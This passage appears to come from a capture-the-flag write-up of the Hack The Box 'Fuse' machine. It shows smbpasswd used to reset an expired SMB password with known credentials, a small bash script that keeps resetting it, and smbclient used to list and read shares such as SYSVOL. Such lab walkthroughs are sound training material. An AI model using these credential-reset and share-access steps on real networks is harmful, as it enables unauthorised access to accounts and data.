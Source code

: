 After some googling I find that when this error appears it means that we will need to change the password for SMB before continuing. I find that we can use the tool smbpasswd to change passwords of SMB remotely.

```
smbpasswd -r fuse.htb -U tlavel
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user tlavel
```

After entering new credentials I try logging in SMB. This time we are successful.

```
smbclient -L fuse.htb -U tlavel 
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\tlavel's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	HP-MFT01        Printer   HP-MFT01
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	print$          Disk      Printer Drivers
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
Connection to fuse.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Failed to connect with SMB1 -- no workgroup available
```

I try reading some shares but soon found that the machine was resetting the password frequently. To overcome this I wrote a simple quick and dirty script.

```
#!/bin/bash
printf 'Fabricorp01\nFabricorp09\nFabricorp09\n' | smbpasswd -r fuse.htb -U tlavel
```

I could have made it better by taking command line arguements but I just went ahead and used it. Just replace the password and run the script and the passwords will be updated. 

After a few tries I was able to read the shares like SYSVOL.

```
smbclient \\\\fuse.htb\\SYSVOL -U tlavel
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\tlavel's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat May 30 04:59:09 2020
  ..                                  D        0  Sat May 30 04:59:09 2020
  fabricorp.local                     D        0  Sat May 30 04:59:09 2020
```
